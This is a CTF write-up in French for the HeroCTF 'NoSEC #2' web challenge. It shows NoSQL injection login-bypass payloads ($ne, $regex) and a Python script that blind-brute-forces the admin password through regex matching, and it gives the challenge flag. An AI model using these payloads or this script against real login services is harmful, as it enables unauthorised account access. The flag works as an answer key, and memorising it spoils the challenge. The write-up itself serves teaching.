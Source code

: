 # NoSEC #2

### Description

Vous devez retrouver le mot de passe de l'administrateur pour valider le challenge ! L'URL du challenge reste la même.

Format: Hero{motdepasse}

### Solution 

Deuxième niveau du challenge [NoSEC #1](https://github.com/0xSysR3ll/CTF/edit/master/HeroCTF/Web/NoSEC1/README.md)

Nous sommes toujours sur une injection NoSQL, le principe reste basiquement le même mais cette fois-ci il va falloir `bruteforcer` le mot de passe.

La payload du niveau 1 consistait à envoyer : `{"username": "admin", "password": {"$ne": randomThing}}` qui faisait valider le mot de passe.

Ici, il va falloit donc falloir faire un attaque du type `Blind NoSQL` en utilisant les regex.

On teste en envoyant : `{"username": {"$eq": "admin"}, "password": {"$regex": "" }}`

On est bien authentifié.

Avec un script python on va alors pouvoir récupérer caractère par caractère le mot de passe.


```python
import requests

passwd = ""
headers = {'Content-Type': 'application/json'}
url = "http://challs.heroctf.fr:3000/login"

for _ in range(32):
    alphabet = "abcdefghijklmnopqrstuvwxyz0123456789"
    for i in range(len(alphabet)):
        c = alphabet[i]
        data = '{"username": {"$eq": "admin"}, "password": {"$regex": "^'+passwd+c+'" }}'
        response = requests.post(url=url, headers=headers, data=data, verify=True)
        
        if b'success' in response.content:
            print('Nouveau caractère trouvé : ', c)
            passwd += c
        
        if b'You can validate' in response.content:
            print("Flag : Hero{"+passwd+"}")
            break
```

Flag : Hero{5d41402abc4b2a76b9719d911017c592}
